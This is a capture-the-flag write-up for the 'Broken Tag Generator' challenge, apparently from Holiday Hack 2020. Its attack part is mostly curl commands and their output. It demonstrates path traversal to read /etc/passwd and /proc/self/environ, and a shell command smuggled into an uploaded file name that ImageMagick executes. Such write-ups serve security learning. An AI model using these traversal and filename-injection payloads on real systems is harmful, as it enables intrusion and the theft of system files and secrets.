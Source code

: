 # Objective 8: Broken Tag Generator

The objective is to obtain the value of the environment variable `GREETZ` of the [Tag Generator](https://tag-generator.kringlecastle.com/).

## Solution using Path Traversal

It was found that the image download function allows path traversal:
```
curl https://tag-generator.kringlecastle.com/image?id=../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
[...]
```
Using this the value the environment variable can be obtained like this:
```
url https://tag-generator.kringlecastle.com/image?id=../../../../../proc/self/environ --output -
PATH=/usr/local/bundle/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binHOSTNAME=cbf2810b7573RUBY_MAJOR=2.7RUBY_VERSION=2.7.0RUBY_DOWNLOAD_SHA256=27d350a52a02b53034ca0794efe518667d558f152656c2baaf08f3d0c8b02343GEM_HOME=/usr/local/bundleBUNDLE_SILENCE_ROOT_WARNING=1BUNDLE_APP_CONFIG=/usr/local/bundleAPP_HOME=/appPORT=4141HOST=0.0.0.0GREETZ=JackFrostWasHereHOME=/home/app
```
So the `GREETZ` variable contains **JackFrostWasHere**

## Solution using RCE

The [Ruby application code](https://github.com/joergschwarzwaelder/hhc2020/blob/master/Objective-8/app.rb) can be downloaded through
```
curl https://tag-generator.kringlecastle.com/image?id=../../../../../app/lib/app.rb --output app.rb
```
This code allows to place uploaded files in a chosen place on the remote system using the ZIP upload function.
Furthermore the application starts the `convert` tool from  ImageMagick which makes it possible to inject shell commands:
```
jsw@io:*$ touch \'\`env\>joergen\`\;\'.jpg
jsw@io:*$ zip joergen.zip *.jpg
  adding: '`env>joergen`;'.jpg (stored 0%)
jsw@io:*$ curl https://tag-generator.kringlecastle.com/upload -F'my_file[]=@joergen.zip'
["7ebc17be-a3ea-48f5-95ea-730e1b006520.jpg"]
jsw@io:*$ sleep 5
jsw@io:*t/z$ curl https://tag-generator.kringlecastle.com/image?id=../../../../../tmp/joergen
RUBY_MAJOR=2.7
GREETZ=JackFrostWasHere
HOSTNAME=cbf2810b7573
PORT=4141
HOME=/home/app
BUNDLE_APP_CONFIG=/usr/local/bundle
RUBY_VERSION=2.7.0
RACK_ENV=development
APP_HOME=/app
PATH=/usr/local/bundle/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
HOST=0.0.0.0
GEM_HOME=/usr/local/bundle
RUBY_DOWNLOAD_SHA256=27d350a52a02b53034ca0794efe518667d558f152656c2baaf08f3d0c8b02343
PWD=/tmp
BUNDLE_SILENCE_ROOT_WARNING=1

```
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTc5NDA3MzQyOSwxOTMzMzYxNzg3LC0xND
Y3NjE1MjYyLC0yNDM5NDI4NjYsMTMxMjA1NjQ1Myw5MjA0NTU4
NjUsLTE2MDYwNzgwNDBdfQ==
-->